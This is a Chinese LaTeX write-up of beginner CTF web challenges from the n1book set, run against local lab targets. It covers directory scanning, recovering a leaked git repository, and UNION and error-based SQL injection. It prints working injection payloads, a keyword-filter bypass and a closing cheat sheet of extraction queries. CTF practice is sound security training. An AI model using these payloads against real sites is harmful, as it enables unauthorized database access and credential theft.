\chapter{web入门}
\section{信息收集}
\subsection{常见的搜集}
直接进入网页后提示是敏感文件题目,页面没有任何按钮。那么直接使用\href{https://github.com/maurosoria/dirsearch}{目录扫描工具}扫一遍:
\begin{lstlisting}
python3 dirsearch.py -u http://172.17.0.1/
\end{lstlisting}
结果如图~\ref{fig:pic1}。
\begin{figure}[H]
\centering

\includegraphics[width=0.5\textwidth]{1-web_junior/pic/1.jpg}
\caption{扫描结果}
\label{fig:pic1}
\end{figure}
那么把这些目录全部访问一遍。
\begin{itemize}
    \item 直接访问robots.txt: 提示flag在另一个文件中,再次访问得$ flag1:n1book\{info\_1 $
    \item 直接访问index.php$\sim$: $ flag2:s\_v3ry\_im $
    \item 恢复.index.php.swp: $ flag3:p0rtant\_hack\} $
\end{itemize}
拼凑起来,最终flag为:
\begin{lstlisting}
n1book{info_1s_v3ry_imp0rtant_hack}
\end{lstlisting}

\newpage

\subsection{粗心的小李}
网页提示是很简单的git泄露,那么直接用\href{https://github.com/denny0223/scrabble}{scrabble}尝试恢复一下:
\begin{lstlisting}
./scrabble http://172.17.0.1
重新初始化已存在的 Git 仓库于 /home/shijy/ctf/tools/web/scrabble/.git/
parseCommit 213b7e386e9b0b406d91fae58bf8be11a58c3f88
downloadBlob 213b7e386e9b0b406d91fae58bf8be11a58c3f88
parseTree f46fbac4149604ca13a765950f9a2d1fd8c1c7ad
downloadBlob f46fbac4149604ca13a765950f9a2d1fd8c1c7ad
downloadBlob 1e0db5d96b5cc9785055c14bbec0e7ad14f48151
HEAD 现在位于 213b7e3 flag
\end{lstlisting}

恢复成功,获得一个index.html文件,直接打开,搜索到flag:
\begin{lstlisting}
n1book{git_looks_s0_easyfun}
\end{lstlisting}

\subsection{小结}
这两个问题都是有隐藏路径暴露在外网中,按道理上来直接目录扫描工具扫一下,之后再按情况分析即可。

工具总结:
\begin{itemize}
    \item 目录扫描:\href{https://github.com/maurosoria/dirsearch}{目录扫描工具}
    \item git恢复:\href{https://github.com/denny0223/scrabble}{scrabble}
    \item git分支提取:\href{https://github.com/WangYihang/GitHacker}{GitHacker}
    \item 指纹库识别:python-Wappalyzer
\end{itemize}


\section{SQL注入}
\subsection{SQL注入-1}
进入网页后,页面是一段类似博客的东西,URL为'http://127.0.0.1/index.php?id=1'。

\subsubsection*{注入类型判定}
首先尝试是不是数字型注入,改为'id=1+1',回显页面仍然是'id=1'的界面,排除数字型注入。
接下来尝试字符型注入,改为'id=1a'后,页面回显为'id=1'的页面,进一步确认,改为"id=1' and sleep(1)\#"后,页面会有延迟。那么可以确认是字符型注入。接下来可以开始注入了。

\textbf{这里注意用网页上的在线url编码时,' '编码为加号,其他编码也和书上提到的不一样,感觉字符集不一样,于是最后手动编码,替换的敏感符号。}

\subsubsection*{UNION查询}
因为UNION后的SELECT语句必须选择和前面的语句相同的列数,因此首先确定列数:
\begin{lstlisting}
id=-1' union select 1#
id=-1' union select 1,2#
id=-1' union select 1,2,3#
\end{lstlisting}
在第三句时得到输出2,3,因此UNION后的语句需要有3列,且目标内容要放到后两列:
\begin{lstlisting}
id=-1' union select 1,group_concat(table_name),1 from information_schema.tables where table_schema=database()#
\end{lstlisting}
页面输出为:
\begin{lstlisting}
fl4g,notes
1
\end{lstlisting}

查看fl4g表中的列:
\begin{lstlisting}
id=-1' union select 1,group_concat(column_name),1 from information_schema.columns where table_name='fl4g'#
\end{lstlisting}
页面输出为:
\begin{lstlisting}
fllllag
1
\end{lstlisting}

最后查询fllllag列:
\begin{lstlisting}
id=-1' union select 1,group_concat(fllllag),1 from fl4g#
\end{lstlisting}
页面输出为:
\begin{lstlisting}
n1book{union_select_is_so_cool}
1
\end{lstlisting}
获得flag。

\subsection{SQL注入-2}
题目描述:请访问 http://127.0.0.1/login.php\ http://127.0.0.1/user.php

访问login界面是一个输入账户名和密码的界面,访问user界面提示未登录。在login界面随便试了一下发现有一个admin账户,但是试不出来密码。
打开源码有提示让在URL里面加上'?tips=1',然后可以通过burp查看mysql报错信息。按提示打开后,在burp中拦截发送的包,发送后并没有回复包里看到报错信息,如图~\ref{fig:pic2}。
\begin{figure}[H]
\centering

\includegraphics[width=0.9\textwidth]{1-web_junior/pic/2.jpg}
\caption{发送包和回复包}
\label{fig:pic2}
\end{figure}

搞了好久之后,看了下writeup,发现我的burp发送的包和writeup的包不一样,他的包首行的POST目的地址里就有'?login=1',手动加上以后就正常了,如图~\ref{fig:pic3}。
\begin{figure}[H]
\centering

\includegraphics[width=0.9\textwidth]{1-web_junior/pic/3.jpg}
\caption{修改后的发送包和回复包}
\label{fig:pic3}
\end{figure}

然后继续尝试报错注入,输入如下:
\begin{lstlisting}
name=admin' or updatexml(1,concat(0x7e,(select 1)),1)#&pass=123
\end{lstlisting}
结果为:
\begin{lstlisting}
HTTP/1.1 200 OK
Date: Sun, 14 Mar 2021 11:26:10 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.29
Vary: Accept-Encoding
Content-Length: 88
Content-Type: text/html

string(24) "XPATH syntax error: '~1'"
{"error":1,"msg":"\u8d26\u53f7\u4e0d\u5b58\u5728"}
\end{lstlisting}
可以看到注入成功,那么继续注入name,获取表名、列名:
\begin{lstlisting}
admin' or updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database())),1)#
\end{lstlisting}
回显报错:
\begin{lstlisting}
string(215) "You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'from information_schema.tables where table_schema=database())),1)#'' at line 1"
\end{lstlisting}
可能是左边的select被过滤,尝试将select改为嵌套的selselectect后,获取到表名。~\ref{fig:pic4}。
\begin{figure}[H]
\centering

\includegraphics[width=0.9\textwidth]{1-web_junior/pic/4.jpg}
\caption{获取表名}
\label{fig:pic4}
\end{figure}

继续查询列名:
\begin{lstlisting}
admin' or updatexml(1,concat(0x7e,(selselectect group_concat(column_name) from information_schema.columns where table_name='fl4g')),1)#
\end{lstlisting}
得到列名为flag,继续查询:
\begin{lstlisting}
admin' or updatexml(1,concat(0x7e,(selselectect group_concat(flag) from fl4g)),1)#
\end{lstlisting}
获取到flag:
\begin{lstlisting}
~n1book{login_sqli_is_nice}
\end{lstlisting}

PS:最后用同样的方法获得了admin的密码,但是结果是一串长字符串,并不能登陆进去。

\subsection{小结}
SQL是比较复杂的注入,首先要判断注入类型、注入点,然后才能开展注入。至于怎么判断类型、怎么从回显报错信息等得到更多信息,都是经验之谈,需要多做题积累。

\begin{itemize}
    \item 符号小结:单引号\%27,双引号\%22,空格\%20,丼号\%23。
    \item UNION查询列数需要和之前语句一致。
\end{itemize}

重要语句:
\begin{lstlisting}
表名列名:
SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema=database())
SELECT group_concat(column_name) FROM information_schema.columns WHERE table_name ='NAME'
报错注入:
updatexml(1,concat(0x7e,(select pwd from wp_user)),1)
\end{lstlisting}